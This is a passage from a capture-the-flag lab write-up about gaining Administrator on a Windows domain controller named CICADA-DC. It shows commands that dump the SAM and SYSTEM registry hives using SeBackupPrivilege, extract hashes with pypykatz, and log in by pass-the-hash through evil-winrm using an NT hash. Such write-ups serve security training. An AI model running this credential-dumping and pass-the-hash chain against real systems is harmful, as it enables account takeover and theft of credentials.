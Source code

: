The <kbd>SeBackupPrivilege</kbd> allow us to read all system files.

Create a Temp directory and get the SAM and SYSTEM file from registry.

```bash
mkdir C:\Temp
cd C:\Temp

reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

These file are unreadable in linux, but we using the tool pypykatz to extract sensitive information.

```bash
pypykatz registry --sam sam system -o registry.dump
```

<figure><img src="../../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>

Let's try to Pass-the-Hash as Administrator user with NTHash found above.

```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

We are Administrator of the CICADA-DC.

### root.flag

Get the flag and keep learing!

```powershell
cd C:\Users\Administrator\Desktop
more root.txt
```



